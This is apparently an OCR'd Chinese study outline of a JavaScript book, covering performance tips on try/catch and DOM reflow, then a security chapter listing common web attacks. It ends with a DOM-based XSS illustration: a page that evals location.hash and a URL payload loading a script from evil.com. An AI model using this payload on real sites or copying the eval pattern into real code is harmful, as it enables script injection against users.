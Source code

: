     * 不推荐使用with，无形中形成作用域
    * try catch, catch处理一脚外部函数

    ~~~
          try {
          } catch(ex) {
              errorHandler(ex);
          }
    ~~~
* DOM操作
	* 重绘与重排
    	* 增删和修改元素可见性
        * 页面初始化渲染
        * 移动DOM元素
        * 修改CSS样式
        * DOM元素内容改变
        * 窗口尺寸改变
        * 浏览器窗口滚动
    * 合并多次的DOM操作为单次
    *  把DOM元素离线或者隐藏后修改
    	* clone DOM 到内存
		
        ~~~
		var old = document.getElementById("myElement");
        var clone = old.cloneNode(true);
        old.parentNode.replaceChild(clone, old);
		~~~
    *  设置具有动画效果的DOM元素position为fixed或absolute
    * 谨慎取得DOM元素的布局信息
    	* 浏览器会优化连续的DOM操作
   * 使用事件托管方式绑定事件
   		* 在父元素上绑定，然后判断子元素事件
* 辅助工具 PageSpeed YSlow jsPerf
* JavaScript性能测试库 JSLitmus

####  **ch11 JS - 高安全性**
* 国内著名的漏洞报告平台 - 乌云网
* 黑客攻击网站的主要手段有
	* SQL注入
    * 网络钓鱼
    * 跨站攻击
    * 拒绝服务攻击
* 攻击网站前端的方法
	* XSS 跨站点脚本攻击
    	* 同源策略没有限制页面中加载第三方的脚本
        * 尽一切方法在目标网站上执行非目标网站上原有的脚本
        
        ~~~
        <script>
            eval(location.hash.substr(1));
        </script>

        http://host/test.html#document.write("<script/src=//www.evil.com/evil.com/evil/js></script>")
        ~~~
